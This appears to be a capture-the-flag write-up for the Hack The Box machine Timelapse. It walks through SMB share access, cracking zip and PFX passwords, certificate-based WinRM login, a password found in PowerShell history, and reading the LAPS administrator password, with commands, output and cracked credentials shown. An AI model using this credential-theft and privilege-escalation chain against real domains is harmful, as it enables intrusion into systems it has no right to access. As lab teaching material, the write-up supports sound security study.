

The official [box page](https://app.hackthebox.com/machines/Timelapse) on HTB


### The writeup:

#### System Scan | **IP: 10.10.11.152**

let's add the ip to to the `/etc/hosts` file and name it `undetected.htb`

> `echo '10.10.11.152 undetected.htb ' >> /etc/hosts`

startup full ports nmap scan | **-sC for the default set of scripts**. | **-sV for Enables version detection**. | **-T4 for sending the traffic fast**.

> `nmap -sC -sV -T4 10.10.11.152 -p-

```bash
werz@ctf01:~/ctf/htb/timelapse$ nmap -sC -sV -T4 10.10.11.152 -p-
Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-06 02:41 +01
Nmap scan report for 10.10.11.152
Host is up (0.29s latency).
Not shown: 998 filtered ports 

PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2022-07-15 10:09:34Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
|_ssl-date: 2022-07-15T10:11:07+00:00; +7h59m59s from scanner time.
| tls-alpn: 
|_  http/1.1
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             Microsoft Windows RPC
49696/tcp open  msrpc             Microsoft Windows RPC
56370/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h59m58s, deviation: 0s, median: 7h59m57s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-07-15T10:10:30
|_  start_date: N/A
```

## SMB enumeration

 Since smb port-445 is open, as always I'll check for some accessible content im using [smbmap](https://www.google.com/search?q=smbmap&oq=smbmap&aqs=chrome..69i57.262j0j7&sourceid=chrome&ie=UTF-8):

```bash
werz@ctf01:~/ctf/htb/timelapse$ smbmap -H 10.10.11.152 -u ff                                                                                           INT ✘  06:58:25 PM 

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com   
                     https://github.com/ShawnDEvans/smbmap


[+] IP: 10.10.11.152:445    Name: timelapse.htb0          Status: Guest session       
        Disk                                                      Permissions    Comment
    ----                                                      -----------    -------
    ADMIN$                                                NO ACCESS    Remote Admin
    C$                                                    NO ACCESS    Default share
    IPC$                                                  READ ONLY    Remote IPC
    NETLOGON                                              NO ACCESS    Logon server share 
    Shares                                                READ ONLY    
    SYSVOL                                                NO ACCESS    Logon server share
```

So we have access to the shares disk! I'll dig in with smbclient | `-N` for none password you also can leave it empty. 

```bash
werz@ctf01:~/ctf/htb/timelapse$ smbclient \\\\10.10.11.152\\shares -N                                                                                  INT ✘  07:02:08 PM 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Oct 25 16:39:15 2021
  ..                                  D        0  Mon Oct 25 16:39:15 2021
  Dev                                 D        0  Mon Oct 25 20:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 16:48:42 2021

        6367231 blocks of size 4096. 2043344 blocks available
```

Dev folder have a single file, which I'll grab:

```bash
smb: \> cd dev
smb: \dev\> ls
  .                                   D        0  Mon Oct 25 20:40:06 2021
  ..                                  D        0  Mon Oct 25 20:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 16:46:42 2021
get qw
        6367231 blocks of size 4096. 2086053 blocks available
smb: \dev\> get winrm_backup.zip 
getting file \dev\winrm_backup.zip of size 2611 as winrm_backup.zip (3.4 KiloBytes/sec) (average 3.4 KiloBytes/sec)
```

HelpDesk folder have some files about LAPS they may be helpful:

```bash
smb: \> dir helpdesk/
  .                                   D        0  Mon Oct 25 16:48:42 2021
  ..                                  D        0  Mon Oct 25 16:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 15:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 15:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 15:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 15:57:44 2021

        6367231 blocks of size 4096. 2085269 blocks available
```

## Shell as legacyy
The ZIP file is a password protected:
```bash
werz@ctf01:~/ctf/htb/timelapse$ unzip winrm_backup.zip
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
```

We can try to bruteforce the passphrase, I'm using **fcrackzip** with rockyou wordlist:

```bash
werz@ctf01:~/ctf/htb/timelapse$ fcrackzip -D -u winrm_backup.zip  -p rockyou.txt 

PASSWORD FOUND!!!!: pw == supremelegacy

werz@ctf01:~/ctf/htb/timelapse$ unzip winrm_backup.zip
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password:
  inflating: legacyy_dev_auth.pfx

werz@ctf01:~/ctf/htb/timelapse$ file legacyy_dev_auth.pfx
legacyy_dev_auth.pfx: data
```

> - The PKCS#12 or PFX/P12 format is a binary format for storing the server certificate, intermediate certificates, and the private key in one encryptable file

> - These files usually have extensions such as .pfx  and .p12

> - They are typically used on Windows machines to import and export certificates and private keys

So we need to extract the private key and certificate from the **.pfx** file. here is a walkthrough [post](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file)

Unfortunately it's also protected with a passphrase:
```bash
werz@ctf01:~/ctf/htb/timelapse$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key
Enter Import Password:
```

[pfx2john.py](https://github.com/sirrushoo/python/blob/master/pfx2john.py) will generate a hash and we we'll save it into a file 


```bash
werz@ctf01:~/ctf/htb/timelapse$ pfx2john.py legacyy_dev_auth.pfx | tee legacyy.hash
legacyy_dev_auth.pfx:$pfxng$1$20$2000$20$eb755568327396de179c4a5d668ba8fe550ae18a$3082099c3082060f06092a864886f70d010701a0820600048205fc308205f8308205f4060b2a864886f70d010c0a0102a08204fe308204fa301c060a2a864886f70d010c0103300e04084408e3852b96a898020207d0048204d8febcd5536b4b831d491da6d53ca889d95f094572da48eed1a4a14cd88bbfff72924328212c0ff047b42d0b7062b3c6191bc2c23713f986d1febf6d9e1829cd6663d2677b4af8c7a25f7360927c498163168a2543fd722188558e8016f59819657759c27000d365a302da21eda4b73121dcc4eede60533b0ef0873a99b92cc7f824d029385fa8b6859950912cd0a257fa55f150c2135f2850832b3229033f2552f809e70010fab8868bb7d5bef7c20408dac3f67e367f4c3e3b81a555cdfe9e89c7bc44d6996f401f9a26e43094b6fa418a76d5b57579eeb534627a27fd46350a624b139d9ff4b124c9afbbbe42870026098bbc7d38b6b543ab6eff3cf2972c87dd2c0e703ef2a0120062a97279661b67ca596a650efde28e098c82fce01f50611e28d4a6d5d75af8bf965c07faa68331b9f66733deb32ee3628b156ee0ef8e63b732e3606f3c6c9453b49d15592648cd918deaf72889f3e0bcf42bfdb9cddae7e77c5934579d658bfea78800013f36de7e7fadd2f0ff96e78dedaba0593947f96989fad67e17470b49307b5199248fbad36a0dee42e480b30785810a4c17cc27b0e0ed3a99ddec9720a968f3ccbffb36752febbbca437ecacd6c93c6ef2ff6277de01545a482daf34d1faf38819737b7e4ef61004c2876715123fd0b8a4f6c03eb387fd50eaaf4977870a6c011c91f1c9093dc2aa0e2c72c0a5e1473ef89429b02ab1efbf09b096efecb65d6e772d8eb2ca2e72aa288749d6fdbf9b207592f3a9ad16676d9f0aba1fb2f180f7b715b6c2238a42c13b00f8dc26c41ababbca74b84b42294ff473a0f16c85ac7f2072981968f8b868885655f50ea81f06e5e65d269853e537e18268add9046681f9a6d0233d171f900b34cf0c63d299eb67d7a8ebfcfbf88395de5c7fd5bd1085d20cc56b3ca847e6f21fba58215ff91bed70e5f629c9257baa848f29fab2efb9170f8c51e680dde4d6d2eebaa602b24444f43ccfb607efa46f378539664c6309f51d82f67347fc689e855966069099dead6f19adadcf9c6a0d2c42401846eba828bffad6f7336df1ea091844f2074e976a5d2eb83db0646fb43b3faad564ac577781f29de95b7b21b6caf7f9de6d2d56150de098faf9a684b2a79083b3555455272874e9c427e1b1349b94c0baf73eee08832274df7c4ac23b68f66cb86ba0561e1bb83b0e920b4568371c89c2a80ed63308a4d9ce2e12d74de3f83fe5d93ab3aadd65a8821814f9981e20cdb86615d04ef9d45c30d692ad058212b33a0c8966414b3840a77af33b2fe85791a16e4922a9458cb584903515470d57607ce412e0699c883ddd40ad4983f9e6164879a19fc554781823782c89b47c3bf36a6eb4d33194753e85cb13e112a3e9fce98b72565961d1bace71a8086657bce391bdb2a5e4b8025b06984fbb2da341034e9750b33ef2a1dccddde7b867084faf8264a4379c17dfad736a382fa7510e674ca7fefba611cc64313242d3166a04165d4f70607bd988181f06ff4dca04035c14111c7d93a1169efcece8c3616e971131ff54c42a35f3c43f374131b8634999052aa7a479274f6b9d64e414d2775fcf8f7e68897032902547c92885136f0f14e04e62519a02c03a4d0bf412e517f4b51e42ff27b40d7222d722424c56abb1b183158fef0f9d04bbc45d5341a4cb26d03a5864a6f51b9bd315918aa491393a5b6dc622dad6b25e131e43077ab421c4bcd6ed6dfbd52afd4dcb19a27797cbf983181e2300d06092b06010401823711023100301306092a864886f70d0109153106040401000000305d06092a864886f70d01091431501e4e00740065002d00340061003500330034003100350037002d0063003800660031002d0034003700320034002d0038006400620036002d006500640031003200660032003500630032006100390062305d06092b060104018237110131501e4e004d006900630072006f0073006f0066007400200053006f0066007400770061007200650020004b00650079002000530074006f0072006100670065002000500072006f007600690064006500723082038506092a864886f70d010701a0820376048203723082036e3082036a060b2a864886f70d010c0a0103a08203423082033e060a2a864886f70d01091601a082032e0482032a308203263082020ea00302010202101d9989298acf11bb4193a1cff44e12df300d06092a864886f70d01010b050030123110300e06035504030c074c656761637979301e170d3231313032353134303535325a170d3331313032353134313535325a30123110300e06035504030c074c65676163797930820122300d06092a864886f70d01010105000382010f003082010a0282010100a55607a36216471ee2f34d23ad6171ce8b9eb34a872bf689bce78603bbfeaa1c16b835ff3114fe8834d04d9585af0310af28cf1a42c1e9bf7b68a70a50f986d1643bb5371ca1bdf34d4d15e3745415f672222a4a303adea01b617ef4ee60545e0f0271cf9be6183f0b1ba1191857c40ea73222e8d319803089ae02125999941ea4e1c9b156ffb3ce99ed60b3ab623755c5a0fbb5ccd3986882f776d65a6b35dc2f0e88a532513c90161adb6ac85a26998ac9a82cc249a5aef631b4a7584a2bb9a4eb0bc1491f107c75b6a97f7e35b2ca7a00adfbf8c06babb657d96ef8adcc0b635a4b33a8222e472cc8e7aee8d1a02c77bfa6572f428f085cc3304a8b1491f10203010001a3783076300e0603551d0f0101ff0404030205a030130603551d25040c300a06082b0601050507030230300603551d1104293027a025060a2b060104018237140203a0170c156c6567616379794074696d656c617073652e687462301d0603551d0e04160414ccd90ee4af209eb0752bfd81961eac2db1255819300d06092a864886f70d01010b050003820101005f8efb76bfde3efe96fdda72c84b8ae76bb0882aba9a9bdeba1fc905eadee91d93e510364caf5eeee7492f4cdd43e0fb650ae77d49a3eca2449b28da05817d4a357e66ef6174dca08b226875cf896dc6c73a2603a09dc0aa7457d7dedd04cb747b286c7aade2edbd4e0567e9e1be55d3789fcf01773f7f06b6adf88fb1f579d564ce604cdc8299e074726d06a9ae370ded9c42a680caa9eb9298ce9293bef335263848e6dc4686a6dd59b9f6952e308c6cb7606459c3aa0cebaec6175dd5ab65f758764ae4d68ffb929ac1dfc9f8cb3aae26343c36e19f1d78def222a0760c8860a72ac1dd5a232b1b65162cea1e52b9549a9af4ebd918fe79fbfb34846b6a403115301306092a864886f70d0109153106040401000000$86b99e245b03465a6ce0c974055e6dcc74f0e893:::::legacyy_dev_auth.pfx

```

We'll go forward for cracking with john. it may takes some time

```bash
werz@ctf01:~/ctf/htb/timelapse$ john --wordlist=rockyou.txt legacyy.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:00:24 DONE (2022-06-30 17:29) 0.04115g/s 132993p/s 132993c/s 132993C/s thuglife03282006..thscndsp1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
After some time we got the password `thuglegacy`

### Extracting keys

When extracting the key, it asks for a password `thuglegacy`, and then a password for the .pem file could be anything you want: im following this article again [Extracting the certificate and keys](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file)

```bash

werz@ctf01:~/ctf/htb/timelapse$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
```
I'll the decrypt the key also:

```bash
werz@ctf01:~/ctf/htb/timelapse$ openssl rsa -in legacyy_dev_auth.enc-key -out legacyy_dev_auth.key
Enter pass phrase for legacyy_dev_auth.key-enc:
writing RSA key
```
Same thing for the cert:
```bash
werz@ctf01:~/ctf/htb/timelapse$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
Enter Import Password:
```

now we have both files:

```bash 
werz@ctf01:~/ctf/htb/timelapse$ ls 
legacyy_dev_auth.crt  legacyy_dev_auth.key 
```

## Evil-winrm | Legacyy

> **evil-winrm** is a tool for evil-winrm connections from Linux 

Switched needed: 
- **-S** for enabling SSL
- **-c** provide the public key certificate
- **-k** provide the private key
- **-i** host to connect to

As the following:
```bash
werz@ctf01:~/ctf/htb/timelapse$ evil-winrm -i 10.10.11.152 -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt

Evil-WinRM shell v3.4

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\legacyy\Documents>type C:\Users\legacyy\desktop\user.txt 
```
And we got user!

## Shell as svc_deploy

After some fail enumeration attemps I end up with checking the powershell history file:

(winpeas would also showed it)
```powershell
*Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> ls

    Directory: C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         3/3/2022  11:46 PM            434 ConsoleHost_history.txt
```
> The file contains some powershell commands history, with connecting creds for the svc_deploy user:

```powershell
*Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> type ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
> E3R$Q62^12p7PLlC%KWaxuaV

I'll connect with svc_deploy creds on a new winrm session:

```bash
werz@ctf01:~/ctf/htb/timelapse$ evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S

Evil-WinRM shell v3.4

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_deploy\Documents> 
```

## PE root 
After some enumeration time also, If we check the Global Group memberships for the current user (svc_deploy). 
```powershell
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> net user svc_deploy
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/25/2021 12:25:53 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```
**LAPS_Readers** It seems that we have access to read from [LAPS](https://www.microsoft.com/en-us/download/details.aspx?id=46899).

All what we need to read the password is **Get-ADComputer** for getting Active Directory computers and the **ms-mcs-admpwd** property for clear text password 


```powershell
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-ADComputer DC01 -property 'ms-mcs-admpwd'


DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName       : dc01.timelapse.htb
Enabled           : True
ms-mcs-admpwd     : uM[3va(s870g6Y]9i]6tMu{j
Name              : DC01
ObjectClass       : computer
ObjectGUID        : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName    : DC01$
SID               : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName :
```
> uM[3va(s870g6Y]9i]6tMu{j

## | Evil-winrm | Root

```powershell
werz@ctf01:~/ctf/htb/timelapse$ evil-winrm -i 10.10.11.152 -S -u administrator -p 'uM[3va(s870g6Y]9i]6tMu{j'

Evil-WinRM shell v3.4

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\TRX\Desktop\root.txt
```
yessir!